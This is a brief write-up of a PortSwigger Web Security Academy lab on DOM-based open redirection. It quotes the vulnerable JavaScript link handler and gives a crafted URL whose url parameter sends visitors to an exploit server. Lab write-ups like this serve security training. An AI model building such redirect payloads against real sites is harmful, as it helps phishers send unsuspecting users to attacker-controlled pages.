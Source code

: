 # DOM-based open redirection

## Description

[This lab](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection) contains a DOM-based open-redirection vulnerability. 

## Reproduction and proof of concept

1. Analysis:

```
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
</div>
```

The `url` parameter allows changing the `Back to Blog` link in a Blog page.

2. Construct a URL for redirecting the user to the exploit server:

```text
https://0aee00de0391e705c3631bd500ca0028.web-security-academy.net/post?postId=1&url=https://exploit-0a18009403e3e7cec36e1a18019700ff.exploit-server.net/
```

3. Paste this url in browser and hit enter.

## Exploitability

To solve this lab, an attacker needs to exploit this vulnerability and redirect the victim to the exploit server. 
